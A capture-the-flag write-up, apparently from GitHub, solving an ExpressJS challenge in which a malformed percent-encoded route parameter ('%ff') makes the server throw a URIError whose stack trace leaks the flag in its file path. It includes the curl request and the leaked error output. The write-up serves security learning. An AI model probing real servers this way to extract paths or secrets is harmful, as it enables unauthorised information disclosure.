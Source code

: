 # Gynvael Coldwind ExpressJS challenge 3

Source: https://twitter.com/gynvael/status/1259087300824305665

_*NOTE: I did not manage to solve this one on my own. Honestly, I did not even understood what was the actual goal of the challenge, but I'm still writing it up for completness and possible future reference. Thanks to oshogbovx, this is no longer a mystery.*_

ref: https://twitter.com/oshogbovx/status/1260330247905574912

## Challenge

We are provided with this code on the web page:
```javascript
// IMPORTANT NOTE:
// The secret flag you need to find is in the path name of this JavaScript file.
// So yes, to solve the task, you just need to find out what's the path name of
// this node.js/express script on the filesystem and that's it.

const express = require('express')
const fs = require('fs')
const path = require('path')

const PORT = 5003
const FLAG = process.env.FLAG || "???"
const SOURCE = fs.readFileSync(path.basename(__filename))

const app = express()

app.get('/', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  res.write("Level 3\n\n")
  res.end(SOURCE)
})

app.get('/truecolors/:color', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')

  const color = ('color' in req.params) ? req.params.color : '???'

  if (color === 'red' || color === 'green' || color === 'blue') {
    res.end('Yes! A true color!')
  } else {
    res.end('Hmm? No.')
  }
})

app.listen(PORT, () => {
  console.log(`Challenge listening at port ${PORT}`)
})
```

## Analysis

The actual problem is not in the code that we are viewing. It is expected that we observe the issue in `req.params` when it is being decoded under the hood.

There is important information regarding decoding in [the documentation](https://expressjs.com/en/4x/api.html#req.params).

> NOTE: Express automatically decodes the values in req.params (using decodeURIComponent).

This means that if an invalid character is supplied, we might get the reward.

## Solution

You can get the flag by specifying an invalid character as `color`:

`http://challenges.gynvael.stream:5003/truecolors/%ff`

Proof that it works:
```
$ curl "http://challenges.gynvael.stream:5003/truecolors/%ff"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>URIError: Failed to decode param &#39;%ff&#39;<br> &nbsp; &nbsp;at decodeURIComponent (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at decode_param (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/layer.js:172:12)<br> &nbsp; &nbsp;at Layer.match (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/layer.js:148:15)<br> &nbsp; &nbsp;at matchLayer (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/index.js:574:18)<br> &nbsp; &nbsp;at next (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/index.js:220:15)<br> &nbsp; &nbsp;at expressInit (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/middleware/init.js:40:5)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at trim_prefix (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/index.js:317:13)<br> &nbsp; &nbsp;at /usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/index.js:284:7<br> &nbsp; &nbsp;at Function.process_params (/usr/src/app/CTF{TurnsOutItsNotRegexFault}/node_modules/express/lib/router/index.js:335:12)</pre>
</body>
</html>
```

... and this is how the important note makes sense.
